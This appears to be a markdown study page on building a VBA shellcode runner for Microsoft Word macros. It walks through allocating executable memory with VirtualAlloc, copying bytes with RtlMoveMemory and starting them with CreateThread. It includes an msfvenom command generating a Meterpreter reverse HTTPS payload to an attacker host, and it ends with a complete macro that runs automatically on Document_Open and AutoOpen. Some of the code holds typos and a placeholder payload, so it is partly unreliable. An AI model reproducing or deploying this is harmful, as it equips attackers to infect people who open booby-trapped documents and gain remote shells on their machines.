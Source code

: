 # Shellcode Runners
Code that will execute shellcode in memory.

## Steps
1. Use `VirtualAlloc` to create unmanaged memory that is r-w-x
2. Copy shellcode into new memory using `RtlMoveMemory`
3. Create new execution thread in the process using `CreateThread` to execute the shellcode.

Note: Allocating memory through other Win32 APIs return non-executable memory because of Data Execution Prevention.

## 1. VirtualAlloc
Create unmanaged memory that we can read, write, and execute:

| Param | Description |
| ----- | ----------- |
| `lpAddress` | Memory allocation address. If set to 0 the api will choose the location. |
| `dwSize` | Size of allocation |
| `flAllocationType` | Allocation type |
| `flProtect` | Memory protections |

```
LPVOID VirtualAlloc(
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD flAllocationType,
    DWORD flProtect
);
```

Create the following declaration:
- `LPVOID` can be translated to `LongPtr` 
```
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
```

## 2. Generate Shellcode
- System Architecture
- Must execute in word and formatted as `vbapplication`

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f vbapplication
```

After completion we'll see some output:
```
Payload size: 823 bytes
Final size of vbapplication file: 2740 bytes
buf = Array(252,72,131,228,240)
```

## 3. VBA Code
Create the VBA code:

| `Ubound` | Get the size of array |
| `&H3000` | `0x30000` equates to allocation type enums of `MEM_COMMIT` and `MEM_RESERVE` |
| `&H40` | Indicates that memory is readable, writeable, and executable | 

```
Dim buf As Variant
buf = Array (1,2,3)
addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
```

## 4. Copy Shellcode to memory location
Use [RtlMoveMemory](https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)

| Variable | Translation | Passed By | Description |
| -------- | ----------- | --------- | ----------- | 
| `Destination` | `LongPtr` | `ByVal` | points to newly allocated memory pointer | 
| `Source` | `Any` | `ByRef` | Address of an element from the shellcode array |
| `Length` | `Long` | `ByVal` | Length of memory allocation |
| Return | `LongPtr` | - | - | Return value of function |

```sh
VOID RtlMoveMemory(
    VOID UNALIGNED *Destination,
    VOID UNALIGNED *Source,
    SIZE_T Length,
);
```

Delcaration Statement:

Note the argument prefixes are a coding convention and help determine the datatype / use at a glance
| Prefix | Purpose |
| ------ | ------- |
| `l` | `Long` Datatype which is a 32-bit signed integer. 64-bit when used with `LongPtr` |
| `s` | `String` In the case below it is due to the `Any` datatype |
| `p` | Used for pointers typically used in memory manipulation or API calls |

```sh
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lDestination As LongPtr, ByRef sSource as Any, ByVal lLength As Long) As LongPtr
```

## 5. Build Loop
- Loop over the shellcode array and create a byte-by-byte copy of our payload.
- Use `LBound` and `UBound` to find first and last elements of array.

```sh
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Dim counter As Long
Dim data As Long
Dim res As LongPtr

For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
Next counter
```

## 6. Create Thread
Instructs the Os to create a new execution thread in a process. 
```sh
HANDLE CreateThread(
    LPSECRUITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);
```

| Variable | Translation | Passed By | Description |
| -------- | ----------- | --------- | ----------- | 
| `lpThreadAttributes` | `Long` | `ByVal` | Keep this as default 0 | 
| `dwStackSize` | `Long` | `ByVal` | Keep this as default 0|
| `lpStartAddress` | `LongPtr` | `ByRef` | Start address for code execution and must be the address of the shellcode buffer |
| `lpParameter` | `LongPtr` | `ByRef` | Pointer to arguments for code residing at the starting address. We have 0 arguments so 0 |
| `dwCreationFlags` | `Long` | `ByVal` | Control the creation of the thread |
| `lpThreadId` | `Long` | `ByRef` | A Pointer that receives the thread identifier |
| Return | `LongPtr` | - | Return value is a long pointer |

Delaration Statement:
```
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByRef StartAddress As LongPtr, ThreadParameter As LongPtr, ByVal CreationFlags As Long, ByRef ThreadId As Long) As LongPtr
```

## 7. Script
- Delare functions for 3 win32 apis
- Cretae space for shellcode
- Put our code in memory
- Create thread to execute code

```sh
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByValue dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function X()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter A Long
    Dim data As Long
    Dim res As LongPtr

    buf = Array(1,2,3)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter

    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
    X
End Sub

Sub AutoOpen()
    X
End Sub
```
